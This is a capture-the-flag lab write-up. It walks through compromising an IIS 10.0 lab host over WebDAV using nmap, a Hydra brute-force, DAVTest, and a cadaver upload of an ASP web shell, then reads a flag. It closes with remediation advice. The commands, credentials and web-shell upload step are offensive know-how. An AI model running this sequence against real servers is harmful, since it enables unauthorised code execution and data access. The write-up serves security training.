# IIS Server DAVTest

**Classification:** Assessment Methodologies / Vulnerability Assessment<br>
**Target:** 10.2.21.130 (DOTNETGOAT - Microsoft IIS 10.0)<br>
**Credentials provided:** `bob:password_123321`

## 1. Executive Summary

The target runs **Microsoft IIS 10.0** with a **WebDAV** service that allows the `PUT`
method. Using the provided credentials we enumerate which file types can be uploaded and
executed with **DAVTest**, confirm that `.asp` is executable, and upload an ASP web shell
with **cadaver**. Browsing to the uploaded shell gives **remote code execution** as
`DOTNETGOAT\bob`, which we use to read the flag from `C:\`.

## 2. Reconnaissance

```bash
nmap -sV -sC 10.2.21.130
```

Port 80 runs **IIS 10.0** with risky HTTP methods enabled (`PUT`, `DELETE`, `MOVE`,
`MKCOL`...) and a WebDAV service.



Other ports include SMB (135/139/445), MySQL (3306) and RDP (3389), with the host
identified as `DOTNETGOAT`.





## 3. Web Enumeration

```bash
nmap -sV -p 80 --script=http-enum 10.2.21.130
```

The `/webdav/` directory is found (401 Unauthorized).



A Hydra brute-force against the WebDAV login returns no results, but the lab provides valid
credentials.

```bash
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt 10.2.21.130 http-get /webdav/
```



Logging in to `/webdav/` with the provided credentials confirms they are valid and shows
`AttackDefense.txt` and `web.config`.



## 4. Enumerating Upload/Exec with DAVTest

```bash
davtest -url http://10.2.21.130/webdav -auth bob:password_123321
```

DAVTest uploads test files of many types (all `PUT` succeed) and creates a test directory.



The execution check shows that `.txt`, `.asp` and `.html` files can be executed on the
server.



## 5. Uploading a Web Shell with cadaver

We connect to the WebDAV share with `cadaver` using the provided credentials.

```bash
cadaver http://10.2.21.130/webdav
# Username: bob | Password: password_123321
```



```bash
ls
```



Since `.asp` is executable, we upload an ASP web shell.

```bash
put /usr/share/webshells/asp/webshell.asp
```



Browsing `/webdav/` confirms `webshell.asp` was uploaded.



## 6. Remote Code Execution

Opening the web shell gives an interactive console. We confirm the execution context.

```bash
whoami
# \\DOTNETGOAT\bob
```



## 7. Capturing the Flag

We locate and read the flag from `C:\`.

```bash
dir C:\
```



```bash
type C:\flag.txt
# 0cc175b9c0f1b6a831c399e269772661
```



## 8. Remediation Recommendations

1. **Disable WebDAV** if it is not strictly required, to remove the upload surface.
2. **Disable the `PUT`/`DELETE` methods** and restrict writable directories so files cannot
   be uploaded to executable locations.
3. **File extension filtering:** block upload/execution of script types (`.asp`, `.aspx`,
   `.php`...) via request filtering.
4. **Enforce strong credentials** for WebDAV and apply least privilege to the application
   pool identity.
